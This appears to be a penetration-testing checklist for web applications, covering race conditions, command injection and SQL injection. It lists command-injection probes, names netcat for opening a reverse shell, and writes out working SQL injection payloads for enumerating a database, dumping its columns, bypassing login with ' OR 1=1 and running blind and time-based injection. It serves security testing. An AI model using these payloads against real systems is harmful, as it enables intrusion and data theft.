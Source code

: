     ## Race Condition
    
    - [ ]  Check to see if there are some form of “transfers” happening (i.e., payment systems, impressions, account transfers). Test if multiple, simultaneous requests can be made at a time.
    
    ## Command Injection
    
    - [ ]  Tools to leverage
        
        Linux
        
        | **Payload** | **Description** |
        | --- | --- |
        | whoami | See what user the application is running under. |
        | ls | List the contents of the current directory. You may be able to find files such as configuration files, environment files (tokens and application keys), and many more valuable things. |
        | ping | This command will invoke the application to hang. This will be useful in testing an application for blind command injection. |
        | sleep | This is another useful payload in testing an application for blind command injection, where the machine does not have `ping` installed. |
        | nc | Netcat can be used to spawn a reverse shell onto the vulnerable application. You can use this foothold to navigate around the target machine for other services, files, or potential means of escalating privileges. |
        
        Windows
        
        | **Payload** | **Description** |
        | --- | --- |
        | whoami | See what user the application is running under. |
        | dir | List the contents of the current directory. You may be able to find files such as configuration files, environment files (tokens and application keys), and many more valuable things. |
        | ping | This command will invoke the application to hang. This will be useful in testing an application for blind command injection. |
        | timeout | This command will also invoke the application to hang. It is also useful for testing an application for blind command injection if the `ping` command is not installed. |
    - [ ]  Encode commands (hex, url, etc.)
    - [ ]  Leverage shell operators (&, &&, ;)
    - [ ]  Leverage code comments (#, //)

## SQL Injection

- [ ]  *value* UNION SELECT {1,2,3} - must do error based checking to determine the total colums
- [ ]  0 UNION SELECT 1,2,database() - check which database we have access to
- [ ]  0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = '*database_name*’
- [ ]  0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = '*table_of_interest’*
- [ ]  0 UNION SELECT 1,2,group_concat(*column_name*,':',*column_name* SEPARATOR '<br>') FROM *table of interest*
- [ ]  `' OR 1=1;--`
    * Because 1=1 is a true statement and we've used an **OR** operator, this will always cause the query to return as true, which satisfies the web applications logic that the database found a valid username/password combination and that access should be allowed.

- [ ]  admin123' UNION SELECT 1,2,3 where database() like 's%';— blind based injection used to guess letters of a database
- [ ]  admin123' UNION SELECT SLEEP(5),2;— - times based injection using two columns